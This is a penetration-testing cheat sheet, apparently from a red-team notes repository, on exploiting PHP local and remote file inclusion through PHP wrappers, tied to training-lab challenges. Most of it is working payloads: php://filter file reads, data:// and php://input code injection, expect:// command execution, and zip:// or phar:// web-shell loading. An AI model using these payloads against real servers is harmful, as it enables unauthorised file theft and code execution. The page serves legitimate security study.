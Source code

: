 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![filepathtraversal](../../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![php_filters](../../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![remote_file_inclusion](../../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/file_inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file` or use `php://filter/zlib.deflate/read=convert.base64-encode/resource=/path/to/file` for shorter payloads. [Refer to this to automatically decode it](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php--catch-requests). You may also use `string.rot13` or `string.rot13`.

To **inject** some code (encoded as base64):

* `data:text/plain,<?php%20phpinfo();%20?>`
* `data://text/plain;base64,<base64 php code here>`
* `php://filter/convert.base64-decode/resource=data://plain/text,<base64 php code here>` <small>(is RFI the only one?)</small>
* `allow_url_include` must be enabled 🛑

To **inject** some code (as POST data), inject `php://input` and use:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>

We can also use some special wrappers:

* `expect://id`: run the `id` command, not often installed
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

Refer to [payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#phar) to generate phar archives or to write PHP code.
</div></div>
